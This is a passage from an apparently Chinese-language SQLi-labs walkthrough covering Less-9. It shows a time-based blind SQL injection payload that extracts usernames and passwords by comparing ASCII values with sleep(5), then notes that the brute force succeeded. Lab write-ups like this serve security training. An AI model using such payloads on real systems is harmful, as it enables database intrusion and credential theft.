 

+ 注入如下语句逐一判断内容

  ~~~ shell
  ?id=1' and if(ascii(substr((select group_concat(username,password) from users),1,1))>50,sleep(5),1)--+
  ~~~

  由于页面有延迟，说明内容第一个字符的<code>ASCII</code>值大于50

![Less-9_13](./img/Less-9_13.png)



+ 最终爆破成功



### Less-10

+ 正常打开页面

